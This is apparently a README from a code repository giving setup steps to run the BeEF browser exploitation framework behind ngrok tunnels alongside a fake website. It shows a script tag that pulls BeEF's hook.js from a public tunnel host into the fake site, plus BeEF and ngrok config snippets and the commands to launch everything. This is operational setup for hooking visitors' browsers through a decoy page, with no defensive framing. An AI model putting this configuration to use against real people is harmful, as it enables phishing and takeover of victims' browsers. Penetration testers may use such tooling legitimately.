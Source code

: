 # Configuration for beef to work with ngrok

Following settings should make it possible to use beef AND a fake web site, all with ngrok and a working hook.js. The fake web site inclides the script from the beef proxy.  

Fake site can be viewed at ```http://my-website.ngrok.io```.  
Beef hook.js can be included in the fake web site with ```<script src="https://my-website-beef.ngrok.io/hook.js"></script>```.  


## Beef configuration

The following configuration should be present.  
Do not add any port.  
```
beef:
	http:
		public:
			host: "my-website-beef.ngrok.io"
			port: ""
			https: true
```
Complete beef config can be viewed in ```config-beef.yml```  

## ngrok configuration

Place the config file in the root folder of ngrok. 
In my case I have configured to own domains in ngrok settings
- my-website.ngrok.io      <- Pointing to my fake web site
- my-website-beef.ngrok.io <- Pointing to beef (https)
```
authtoken: <token-for-ngrok>
region: us
tunnels:
  web:
    addr: http://127.0.0.1:1234
    proto: http
    hostname: my-website.ngrok.io
  beef:
    addr: https://127.0.0.1:3000
    proto: http
    hostname: my-website-beef.ngrok.io
    bind_tls: true
```
Complete ngrok config can be viewed in ```config-ngrok.yml```  

## Load it up

```
root💀~/tools/ngrok
$ ./ngrok start --all --config=config-ngrok.yml
```

```
root💀~/tools/public
$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
```

```
root💀~/tools/beef
$ .\beef
```